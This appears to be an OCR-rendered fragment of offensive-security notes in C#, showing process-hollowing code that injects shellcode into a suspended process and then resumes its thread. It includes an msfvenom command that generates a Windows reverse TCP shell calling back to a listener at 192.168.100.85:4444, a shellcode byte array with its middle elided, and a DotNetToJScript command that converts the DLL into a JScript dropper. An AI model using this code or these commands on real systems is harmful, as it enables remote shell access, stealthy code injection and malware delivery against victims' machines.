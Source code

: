 ```csharp

            // msfvenom -p windows/x64/shell_reverse_tcp LPORT=4444 LHOST=192.168.100.85 -f csharp -v shellcode (ENCODED)
            byte[] buf = new byte[734] {0xfc,0x48,0x83,0xe4,0xf0,
...                                    0xe0,0x1d,0x2a,0x0a,0x41,0x89,0xda,0xff,0xd5};

        WriteProcessMemory(hProcess, addressOfEntryPoint, buf, buf.Length, out nRead);
        ResumeThread(pi.hThread);

    }

    public void RunProcess(string path)
    {
        Process.Start(path);
    }
}

```

- convert dll to jscript using DotNetToJscript.exe
```cmd
DotNetToJScript.exe .\source\repos\ProcessHollowClass\ProcessHollowClass\bin\x64\Release\ProcessHollowClass.dll --lang=Jscript --ver=v4 -o demo.js -c ProcessHollowClass
```